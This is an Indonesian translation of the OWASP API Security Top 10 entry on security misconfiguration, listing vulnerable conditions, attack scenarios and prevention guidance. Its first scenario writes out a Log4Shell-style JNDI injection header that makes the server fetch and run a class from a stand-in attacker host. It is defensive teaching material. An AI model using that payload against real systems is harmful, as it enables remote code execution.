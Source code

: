 # API8:2023 Miskonfigurasi Keamanan

| Agen Ancaman/Vektor Serangan | Kelemahan Keamanan | Dampak |
| - | - | - |
| Khusus API : Kemungkinan Dieksploitasi **Mudah** | Prevalensi **Luas** : Kemungkinan Dideteksi **Mudah** | Teknis **Parah** : Khusus Bisnis |
| Penyerang sering mencoba menemukan kelemahan yang belum diperbaiki, endpoint umum, layanan yang berjalan dengan konfigurasi default yang tidak aman, atau file dan direktori yang tidak terlindungi untuk mendapatkan akses tidak sah atau pengetahuan tentang sistem. Sebagian besar informasi ini adalah pengetahuan publik dan eksploitasi mungkin tersedia. | Kesalahan konfigurasi keamanan dapat terjadi di semua tingkat stack API, mulai dari tingkat jaringan hingga tingkat aplikasi. Alat otomatis tersedia untuk mendeteksi dan mengeksploitasi kesalahan konfigurasi seperti layanan yang tidak perlu atau opsi warisan. | Kesalahan konfigurasi keamanan tidak hanya mengekspos data pengguna yang sensitif, tetapi juga detail sistem yang dapat menyebabkan kompromi penuh server. |

## Apakah API Rentan?

API menjadi rentan bila:

* Tidak ada penguncian keamanan yang sesuai di seluruh bagian stack API,
  atau izin yang dikonfigurasi dengan tidak benar pada layanan cloud
* Tidak ada patch keamanan terbaru, atau sistem sudah kadaluwarsa
* Fitur yang tidak diperlukan diaktifkan (misalnya, verba HTTP, fitur logging)
* Ada ketidaksesuaian dalam cara permintaan masuk diproses oleh server
  dalam rantai server HTTP
* Tidak ada Keamanan Lapisan Transportasi (TLS)
* Direktif keamanan atau kendali cache tidak dikirimkan kepada klien
* Kebijakan Cross-Origin Resource Sharing (CORS) hilang atau tidak diatur dengan tepat
* Pesan kesalahan mencakup stack trace, atau mengekspos informasi sensitif lainnya

## Contoh Skenario Serangan

### Skenario #1

Sebuah server API back-end menjaga catatan akses yang ditulis oleh utilitas logging sumber terbuka pihak ketiga yang populer dengan dukungan ekspansi tempat dan pencarian JNDI
(Java Naming and Directory Interface), keduanya diaktifkan secara default. Untuk
setiap permintaan, entri baru ditulis ke file log dengan pola berikut: `<metode> <versi_api>/<jalur> - <kode_status>`.

Pelaku jahat mengeluarkan permintaan API berikut, yang ditulis ke file log akses:

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Karena konfigurasi default yang tidak aman dari utilitas logging dan kebijakan keluar jaringan yang longgar, dalam rangka menulis entri yang sesuai
ke file log akses, sambil memperluas nilai dalam header permintaan `X-Api-Version`, utilitas logging akan mengambil dan menjalankan objek `Malicious.class` dari server yang dikendalikan oleh pelaku jahat.

### Skenario #2

Sebuah situs jaringan sosial menawarkan fitur "Pesan Langsung" yang memungkinkan pengguna
mempertahankan percakapan pribadi. Untuk mengambil pesan baru untuk percakapan tertentu, situs web mengeluarkan permintaan API berikut (interaksi pengguna tidak diperlukan):

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Karena tanggapan API tidak menyertakaj header tanggapan HTTP `Cache-Control`, percakapan pribadi akan disimpan dalam cache browser web, memungkinkan
pelaku jahat mengambilnya dari file cache browser dalam sistem file.

## Cara Mencegah

Siklus hidup API harus mencakup:

* Proses pengerasan berulang yang menghasilkan penerapan lingkungan yang terkunci dengan benar dengan cepat dan mudah
* Tugas untuk meninjau dan memperbarui konfigurasi di seluruh stack API. Tinjauan harus mencakup: file orkestrasi, komponen API, dan layanan cloud
  (misalnya, izin bucket S3)
* Proses otomatis untuk terus-menerus menilai efektivitas konfigurasi dan pengaturan di semua lingkungan

Selain itu:

* Pastikan semua komunikasi API dari klien ke server API dan komponen hulu/hilir terjadi melalui saluran komunikasi yang terenkripsi
  (TLS), tanpa memandang apakah itu API internal atau publik.
* Lebih spesifik tentang verba HTTP mana pun yang dapat diakses oleh setiap API: semua verba HTTP lainnya harus dinonaktifkan (misalnya, HEAD).
* API yang diharapkan diakses dari klien berbasis browser (misalnya, front-end WebApp) harus setidaknya:
    * mengimplementasikan kebijakan Cross-Origin Resource Sharing (CORS) yang tepat
    * menyertakan Header Keamanan yang berlaku
* Batasi jenis konten/format data masuk hanya pada yang memenuhi persyaratan bisnis/fungsional.
* Pastikan semua server dalam rantai server HTTP (misalnya, load balancer, reverse and forward proxy, serta server backend) memproses permintaan masuk dengan cara yang seragam untuk menghindari masalah desinkronisasi.
* Jika memungkinkan, tentukan dan tegakkan semua skema muatan respons API, termasuk respons kesalahan, untuk mencegah pengecualian jejak dan informasi berharga lainnya dikirimkan kembali kepada pelaku serangan.

## Referensi

### OWASP

* [Proyek OWASP Secure Headers][1]
* [Pengujian Konfigurasi dan Manajemen Implementasi - Panduan Pengujian Keamanan Web Guide][2]
* [Pengujian Penanganan Kesalahan - Panduan Pengujian Keamanan Web][3]
* [Pengujian Cross Site Request Forgery - Panduan Pengujian Keamanan Web][4]

### Eksternal

* [CWE-2: Kelemahan Keamanan Lingkungan][5]
* [CWE-16: Konfigurasi][6]
* [CWE-209: Pembuatan Pesan Kesalahan yang Mengandung Informasi Sensitif][7]
* [CWE-319: Pengiriman Teks Terbuka Informasi Sensitif][8]
* [CWE-388: Penanganan Kesalahan][9]
* [CWE-444: Interpretasi Tidak Konsisten Permintaan HTTP ('HTTP Request/Response Smuggling')][10]
* [CWE-942: Kebijakan Lintas Domain yang Permissif dengan Domain yang Tidak Terpercaya][11]
* [Panduan Keamanan Umum Server][12], NIST
* [Let's Encrypt: Otoritas Sertifikat Gratis, Otomatis, dan Terbuka][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
